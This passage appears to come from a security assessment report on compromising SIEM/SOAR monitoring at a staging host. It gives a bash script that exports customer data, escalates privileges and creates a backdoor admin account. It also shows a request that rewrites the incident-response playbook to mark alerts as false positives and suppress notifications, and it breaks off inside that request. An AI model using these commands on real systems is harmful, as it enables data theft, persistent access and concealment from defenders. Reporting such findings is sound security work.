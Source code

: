 **Phase 3: Attack Execution During "Maintenance Window"**
```bash
#!/bin/bash
# Conduct attacks while security monitoring is disabled

echo "Security monitoring disabled via event injection..."

# 1. Data exfiltration (now undetected)
curl -H "Authorization: Bearer $TOKEN" \
     https://staging.isectech.com/api/customers/export \
     > customer_database.json

# 2. Privilege escalation (undetected)
curl -X POST -H "Authorization: Bearer $TOKEN" \
     -d '{"role": "super_admin"}' \
     https://staging.isectech.com/api/users/self/elevate

# 3. Backdoor creation (undetected) 
curl -X POST -H "Authorization: Bearer $TOKEN" \
     -d '{"username": "backup_admin", "password": "P@ssw0rd123"}' \
     https://staging.isectech.com/api/admin/users/create

echo "Attacks completed. Security monitoring still disabled."
```

**Business Impact Assessment:**
```
SIEM/SOAR Compromise Consequences:
├── Complete security blind spot created
├── 24-hour window of undetected malicious activity
├── Detection rules disabled for critical threats
├── Incident response automation bypassed
├── False compliance posture reported to executives

Regulatory Compliance Impact:
├── SOC 2 CC7.1 (System Operations): FAILED
├── PCI DSS 10.6 (Security Monitoring): FAILED  
├── NIST CSF PR.PT-1 (Audit Logging): FAILED
├── ISO 27001 A.12.4.1 (Event Logging): FAILED
└── GDPR Article 32 (Security Monitoring): FAILED
```

### 2.2 SOAR Playbook Manipulation

**Automated Response System Compromise:**
```http
PUT /api/soar/playbooks/incident_response HTTP/1.1
Content-Type: application/json
Authorization: Bearer [ELEVATED_TOKEN]

{
  "name": "incident_response",
  "triggers": ["critical_security_alert"],
  "actions": [
    {
      "type": "log_event",
      "message": "Incident detected and resolved automatically"
    },
    {
      "type": "mark_resolved", 
      "status": "false_positive"
    },
    {
      "type": "suppress_notifications",
      "duration": "24h"
```